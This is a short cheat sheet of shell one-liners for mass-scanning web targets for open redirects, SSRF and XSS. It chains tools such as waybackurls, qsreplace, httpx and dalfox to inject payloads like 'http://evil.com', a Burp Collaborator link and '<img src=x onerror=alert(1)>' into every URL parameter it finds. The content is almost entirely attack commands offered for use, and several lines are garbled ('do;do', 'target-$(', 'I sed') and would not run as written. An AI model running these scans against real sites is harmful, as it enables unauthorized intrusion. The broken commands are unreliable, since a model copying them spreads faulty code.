 ```
waybackurls target.com | grep -a -i \=http | qsreplace 'http://evil.com' | while read host do;do curl -s -L $host -I| grep "http://evil.com" && echo -e "$host \033[0;31mVulnerable\n" ;done

```

```
cat subs.txt| waybackurls | gf redirect | qsreplace 'http://example.com' | httpx -fr -title -match-string 'Example Domain'

```

---

## **SSRF:**

```
cat wayback.txt | gf ssrf | sort -u |anew | httpx | qsreplace 'burpcollaborator_link' | xargs -I % -P 25 sh -c 'curl -ks "%" 2>&1 | grep "compute.internal" && echo "SSRF VULN! %"'

```

```
cat wayback.txt | grep "=" | qsreplace "burpcollaborator_link" >> ssrf.txt; ffuf -c -w ssrf.txt -u FUZZ

```

---

## **XSS:**

```
cat domains.txt | waybackurls | grep -Ev "\.(jpeg|jpg|png|ico)$" | uro | grep =  | qsreplace "<img src=x onerror=alert(1)>" | httpx -silent -nc -mc 200 -mr "<img src=x onerror=alert(1)>"

```

```
gau target.com grep '='| qsreplace hack\" -a | while read url;do target-$(curl -s -l $url | egrep -o '(hack" | hack\\")'); echo -e "Target : \e[1;33m $url\e[om" "$target" "\n -"; done I sed 's/hack"/[xss Possible] Reflection Found/g'

```

```
cat hosts.txt | httpx -nc -t 300 -p 80,443,8080,8443 -silent -path "/?name={{this.constructor.constructor('alert(\"foo\")')()}}" -mr "name={{this.constructor.constructor('alert("

```

```
cat targets.txt | waybackurls | httpx -silent | Gxss -c 100 -p Xss | grep "URL" | cut -d '"' -f2 | sort -u | dalfox pipe

```

